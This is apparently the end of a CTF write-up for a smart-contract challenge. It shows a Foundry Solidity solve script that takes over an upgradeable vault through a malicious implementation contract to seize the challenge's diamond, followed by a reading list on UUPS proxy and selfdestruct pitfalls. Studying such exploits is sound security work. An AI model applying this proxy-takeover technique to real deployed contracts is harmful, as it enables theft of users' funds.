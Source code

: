 ```solidity
contract Solve is Script {
    function step1() external {
        uint256 key = vm.envUint("KEY");
        address player = vm.rememberKey(key);
        console.log("Player address:", player);
        Challenge challenge = Challenge(vm.envAddress("CHALL"));
        console.log("Challenge address:", address(challenge));
        vm.startBroadcast(player);
        Exploit exploit = new Exploit(challenge);
        exploit.exploit();
        vm.stopBroadcast();

        // require(challenge.isSolved(), "Challenge not solved");
    }

    function step2() external {
        uint256 key = vm.envUint("KEY");
        address player = vm.rememberKey(key);
        console.log("Player address:", player);
        Challenge challenge = Challenge(vm.envAddress("CHALL"));
        console.log("Challenge address:", address(challenge));
        vm.startBroadcast(player);
        VaultFactory vaultFactory = challenge.vaultFactory();
        Vault vault = vaultFactory.createVault(
            keccak256(
                "The tea in Nepal is very hot. But the coffee in Peru is much hotter."
            )
        );
        vault.initialize(address(new NeploxDiamond()), address(0x0));
        TakeOverVault takeOverVault = new TakeOverVault();
        vault.upgradeTo(address(takeOverVault));
        console.log("Address of vault:", address(vault));
        TakeOverVault(address(vault)).solve(player, challenge.diamond());
        vm.stopBroadcast();

        require(challenge.isSolved(), "Challenge not solved");
    }
}
```

<br />

## 📑 See also
- \[ 📗 \]&emsp;**Article**:&ensp;‟UUPS: Universal Upgradeable Proxy Standard (ERC-1822)” by 
Team RareSkills&ensp;[🔗](https://www.rareskills.io/post/uups-proxy)
- \[ 📗 \]&emsp;**Article**:&ensp;‟EIP-6780, selfdestruct, we won't miss you” by Ryan S.&ensp;[🔗](https://rya-sge.github.io/access-denied/2024/03/13/EIP-6780-selfdestruct/)
- \[ 📗 \]&emsp;**Article**:&ensp;‟UUPSUpgradeable Vulnerability Post-mortem” by spalladino&ensp;[🔗](https://forum.openzeppelin.com/t/uupsupgradeable-vulnerability-post-mortem/15680)
- \[ 📗 \]&emsp;**Article**:&ensp;‟Pitfalls of Using CREATE, CREATE2 and EXTCODESIZE Opcodes” by Alexander Mazaletskiy&ensp;[🔗](https://mixbytes.io/blog/pitfalls-of-using-cteate-cteate2-and-extcodesize-opcodes)
- \[ 📝 \]&emsp;**Writeup**:&ensp;‟Draining Vaults in HackTM CTF Quals 2023” by Aaron&ensp;[🔗](https://aaronesau.com/blog/post/12)
- \[ 📝 \]&emsp;**Writeup**:&ensp;‟HackTM CTF Quals 2023 - smart contract(Dragon Slayer, Diamond Heist)” by kangsangsoo&ensp;[🔗](https://hodl.page/entry/HackTM-CTF-Quals-2023-smart-contractDragon-Slayer-Diamond-Heist)
- \[ 📝 \]&emsp;**Writeup**:&ensp;‟HackTM CTF Writeup” by rkm0959&ensp;[🔗](https://rkm0959.tistory.com/284)
- \[ 📝 \]&emsp;**Writeup**:&ensp;‟Exploiting smart contracts in HackTM 2023 CTF Quals” by MiloTruck&ensp;[🔗](https://milotruck.github.io/ctf/Exploiting-smart-contracts-in-HackTM-2023-CTF-Quals/#diamond-heist)